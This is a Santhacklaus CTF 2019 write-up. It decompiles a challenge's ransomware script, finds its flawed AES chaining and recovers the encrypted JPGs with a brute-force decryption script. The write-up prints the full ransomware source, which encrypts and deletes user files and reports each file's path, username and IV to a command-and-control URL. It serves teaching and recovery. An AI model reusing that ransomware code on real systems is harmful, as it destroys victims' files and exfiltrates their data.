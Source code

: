 # Santhacklaus CTF 2019 - Jacques ! Au secours !

This challenge is a crypto challenge from Santhacklaus CTF 2019.
You can visit the CTF platform [here](https://ctf.santhacklaus.xyz).

## Context

> One of our VIP clients, who wishes to remain anonymous, has apparently been hacked and all their important documents are now corrupted.
> Can you help us recover the files? We found a strange piece of software that might have caused all of this.
> MD5 of the file : ccaab91b06fc9a77f3b98d2b9164df8e
> [chall_files.zip](files/chall.zip)


## Exploration

Once we have extracted the zip file, we have a folder of encrypted pictures with a sweet note from our hacker:
> We have hacked all your files. Buy 1 BTC and contact us at hacked@virus.com

![exploration](images/exploration.png)

Since our VIP client seems unwilling to pay this ransom, we should probably find a way to decrypt those vacation pictures...

If we look closer at the files at our disposal, we notice a [virus.cpython-37.pyc](files/virus.cpython-37.pyc) python compiled file that we should probably try to decompile in order to find out how our hacker encrypted our client's files.

I followed [this tutorial](https://gauravssnl.wordpress.com/2017/07/01/how-to-decompile-compiled-pyc-python-files-to-findsee-original-source-code/) and used `uncompyle6 -o . virus.cpython-37.pyc` to get the decompiled [virus.cpython-37.py](files/virus.cpython-37.py) file.

![decompile](images/decompile.png)

## Analysis

So we end up with the following python script:
```python
from Crypto.Cipher import AES
from Crypto.Random import get_random_bytes
import hashlib, os, getpass, requests
TARGET_DIR = 'C:\\Users'
C2_URL = 'https://c2.virus.com/'
TARGETS = [b'Scott Farquhar', b'Lei Jun', b'Reid Hoffman', b'Zhou Qunfei', b'Jeff Bezos', b'Shiv Nadar', b'Simon Xie', b'Ma Huateng', b'Ralph Dommermuth', b'Barry Lam', b'Nathan Blecharczyk', b'Judy Faulkner', b'William Ding', b'Scott Cook', b'Gordon Moore', b'Marc Benioff', b'Michael Dell', b'Yusaku Maezawa', b'Yuri Milner', b'Bobby Murphy', b'Larry Page', b'Henry Samueli', b'Jack Ma', b'Jen-Hsun Huang', b'Jay Y. Lee', b'Joseph Tsai', b'Dietmar Hopp', b'Henry Nicholas, III.', b'Dustin Moskovitz', b'Mike Cannon-Brookes', b'Robert Miller', b'Bill Gates', b'Garrett Camp', b'Lin Xiucheng', b'Gil Shwed', b'Sergey Brin', b'Rishi Shah', b'Denise Coates', b'Zhang Fan', b'Michael Moritz', b'Robin Li', b'Andreas von Bechtolsheim', b'Brian Acton', b'Sean Parker', b'John Doerr', b'David Cheriton', b'Brian Chesky', b'Wang Laisheng', b'Jan Koum', b'Jack Sheerack', b'Terry Gou', b'Adam Neumann', b'James Goodnight', b'Larry Ellison', b'Wang Laichun', b'Masayoshi Son', b'Min Kao', b'Hiroshi Mikitani', b'Lee Kun-Hee', b'David Sun', b'Mark Scheinberg', b'Yeung Kin-man', b'John Tu', b'Teddy Sagi', b'Frank Wang', b'Robert Pera', b'Eric Schmidt', b'Wang Xing', b'Evan Spiegel', b'Travis Kalanick', b'Steve Ballmer', b'Mark Zuckerberg', b'Jason Chang', b'Lam Wai Ying', b'Romesh T. Wadhwani', b'Liu Qiangdong', b'Jim Breyer', b'Zhang Zhidong', b'Pierre Omidyar', b'Elon Musk', b'David Filo', b'Joe Gebbia', b'Jiang Bin', b'Pan Zhengmin', b'Douglas Leone', b'Hasso Plattner', b'Paul Allen', b'Meg Whitman', b'Azim Premji', b'Fu Liquan', b'Jeff Rothschild', b'John Sall', b'Kim Jung-Ju', b'David Duffield', b'Gabe Newell', b'Scott Lin', b'Eduardo Saverin', b'Jeffrey Skoll', b'Thomas Siebel', b'Kwon Hyuk-Bin']

def get_username():
    return getpass.getuser().encode()


def xorbytes(a, b):
    assert len(a) == len(b)
    res = b''
    for c, d in zip(a, b):
        res += bytes([c ^ d])

    return res


def lock_file(path):
    username = get_username()
    hsh = hashlib.new('md5')
    hsh.update(username)
    key = hsh.digest()
    cip = AES.new(key, 1)
    iv = get_random_bytes(16)
    params = (('target', username), ('path', path), ('iv', iv))
    requests.get(C2_URL, params=params)
    with open(path, 'rb') as fi:
        with open(path + '.hacked', 'wb') as fo:
            block = fi.read(16)
            while block:
                while len(block) < 16:
                    block += bytes([0])

                cipherblock = cip.encrypt(xorbytes(block, iv))
                iv = cipherblock
                fo.write(cipherblock)
                block = fi.read(16)

    os.unlink(path)


def lock_files():
    username = get_username()
    print(username)
    if username in TARGETS:
        for directory, _, filenames in os.walk(TARGET_DIR):
            for filename in filenames:
                if filename.endswith('.hacked'):
                    continue
                fullpath = os.path.join(directory, filename)
                print('Encrypting', fullpath)
                lock_file(fullpath)

        with open(os.path.join(TARGET_DIR, 'READ_THIS.txt'), 'wb') as fo:
            fo.write(b'We have hacked all your files. Buy 1 BTC and contact us at hacked@virus.com\n')


if __name__ == '__main__':
    lock_files()
```
As you can see, the script checks if the system user is in the **TARGETS** list and if so, it proceeds to encrypt all the files in the target's **C:\\User** directory using the **lock_file** function.

So the **lock_file** function is the one we should pay attention to. This function uses the MD5 digest of the target's username as the AES key and it divides the file into blocks of 16 bytes before encrypting them. It adds null bytes at the end of the last block until it has 16 bytes.

However, if we look closer at the way the AES cipher is created, we notice that the IV's value is **1** (since the cipher is created using `AES.new(key, 1)`): the randomly generated variable **iv** is not used as the IV of our cipher but rather as a key to xor the blocks to. After encrypting one block, it uses the newly encrypted cipherblock to xor the next block.

Since we know the value of the real IV, we should be able to reverse the **lock_file** function by simply xoring back the different blocks and decrypting them starting from the last block with the **AES.AESCipher.decrypt** function. Since we don't know the 16 random bytes that were xored with the first block, we can open the hexa of a valid JPG and try to use its 16 first bytes as our first block.

The only real problem here is that we need to bruteforce the target's username since our client wanted to remain anonymous but it should not be too difficult...

## Decrypt the files

Here is the script I used to decrypt the JPG files:
```python
from PIL import Image
from Crypto.Cipher import AES
from Crypto.Random import get_random_bytes
import hashlib, os, getpass, requests, re

TARGETS = ['Scott Farquhar', 'Lei Jun', 'Reid Hoffman', 'Zhou Qunfei', 'Jeff Bezos', 'Shiv Nadar', 'Simon Xie', 'Ma Huateng', 'Ralph Dommermuth', 'Barry Lam', 'Nathan Blecharczyk', 'Judy Faulkner', 'William Ding', 'Scott Cook', 'Gordon Moore', 'Marc Benioff', 'Michael Dell', 'Yusaku Maezawa', 'Yuri Milner', 'Bobby Murphy', 'Larry Page', 'Henry Samueli', 'Jack Ma', 'Jen-Hsun Huang', 'Jay Y. Lee', 'Joseph Tsai', 'Dietmar Hopp', 'Henry Nicholas, III.', 'Dustin Moskovitz', 'Mike Cannon-Brookes', 'Robert Miller', 'Bill Gates', 'Garrett Camp', 'Lin Xiucheng', 'Gil Shwed', 'Sergey Brin', 'Rishi Shah', 'Denise Coates', 'Zhang Fan', 'Michael Moritz', 'Robin Li', 'Andreas von Bechtolsheim', 'Brian Acton', 'Sean Parker', 'John Doerr', 'David Cheriton', 'Brian Chesky', 'Wang Laisheng', 'Jan Koum', 'Jack Sheerack', 'Terry Gou', 'Adam Neumann', 'James Goodnight', 'Larry Ellison', 'Wang Laichun', 'Masayoshi Son', 'Min Kao', 'Hiroshi Mikitani', 'Lee Kun-Hee', 'David Sun', 'Mark Scheinberg', 'Yeung Kin-man', 'John Tu', 'Teddy Sagi', 'Frank Wang', 'Robert Pera', 'Eric Schmidt', 'Wang Xing', 'Evan Spiegel', 'Travis Kalanick', 'Steve Ballmer', 'Mark Zuckerberg', 'Jason Chang', 'Lam Wai Ying', 'Romesh T. Wadhwani', 'Liu Qiangdong', 'Jim Breyer', 'Zhang Zhidong', 'Pierre Omidyar', 'Elon Musk', 'David Filo', 'Joe Gebbia', 'Jiang Bin', 'Pan Zhengmin', 'Douglas Leone', 'Hasso Plattner', 'Paul Allen', 'Meg Whitman', 'Azim Premji', 'Fu Liquan', 'Jeff Rothschild', 'John Sall', 'Kim Jung-Ju', 'David Duffield', 'Gabe Newell', 'Scott Lin', 'Eduardo Saverin', 'Jeffrey Skoll', 'Thomas Siebel', 'Kwon Hyuk-Bin']


def xorbytes(a, b):
    assert len(a) == len(b)
    res = b''
    for c, d in zip(a, b):
        res += bytes([c ^ d])
    return res


def unlock_file(path):
    for username in TARGETS:
        hsh = hashlib.new('md5')
        hsh.update(username.encode('utf-8'))
        key = hsh.digest()
        cip = AES.new(key, 1)
        with open(path, 'rb') as fi:
            foname = username + '_' + re.findall(r'(DCIM.*jpg).hacked', path)[0]
            with open(foname, 'wb') as fo:
                content = b''
                cipher = fi.read()
                if len(cipher) % 16 != 0:
                    cipher += bytes([0])
                i = -16
                while -i != len(cipher) - 16:
                    cipherblock = cipher[i:i+16]
                    if i == -16:
                        cipherblock = cipher[i:]
                    iv = cipher[i-16:i]
                    block = xorbytes(cip.decrypt(cipherblock), iv)
                    content = block + content
                    i -= 16
                content = b'\xff\xd8\xff\xe0\x00\x10\x4a\x46\x49\x46\x00\x01\x01\x01' + content
                fo.write(content)
                try:
                    im = Image.open(foname)
                    im.verify()
                    print(f'{foname.split("_")[1]} decrypted with user {foname.split("_")[0]} !')
                except (IOError, SyntaxError):
                    os.remove(foname)


def unlock_files(directory):
    for directory, _, filenames in os.walk(directory):
        for filename in filenames:
            if filename.endswith('.jpg.hacked'):
                print(f'Trying to decrypt {re.findall(r"(DCIM.*jpg).hacked", filename)[0]}...')
                unlock_file(os.path.join(directory, filename))


if __name__ == '__main__':
    unlock_files('./vacation pictures')
```
Executing the script in the **chall_files** directory allows us to recover the four JPG files:

![result](images/result.png)

So we now know our (not so) anonymous client's name and we have decrypted his vacation pictures ! :D

![fun](images/Jack%20Sheerack_DCIM-0533.jpg)

The flag is on one of these pictures:

![flag](images/Jack%20Sheerack_DCIM-0534.jpg)
